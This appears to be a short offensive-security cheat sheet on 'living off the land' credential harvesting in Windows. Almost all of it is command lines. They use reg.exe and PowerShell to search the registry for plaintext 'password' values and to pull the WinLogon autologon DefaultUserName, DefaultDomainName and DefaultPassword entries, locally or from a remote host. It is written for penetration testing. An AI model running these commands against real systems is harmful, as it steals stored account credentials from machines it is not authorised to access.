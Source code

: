 # Living off the Land

## 01 - Command Prompt

Using a registry to query the plain text password in the key.

### 1.1 - Search for patterns

```
C:\> reg.exe query HKLM /f "password" /t REG_SZ /s /k

C:\> reg.exe query HKCU /f "password" /t REG_SZ /s /k
```

### 1.2 - Query WinLogon registry entry

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" [/reg:<32 | 64>] 2>nul | findstr.exe "DefaultUserName DefaultDomainName DefaultPassword"
```

Enumerate one by one.

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultDomainName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword [/reg:<32 | 64>]
```

## 02 - PowerShell

### 2.1 - Search for patterns

```
PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"
```

### 2.2 - Query WinLogon registry entry

```
PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultUserName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultDomainName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultPassword
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)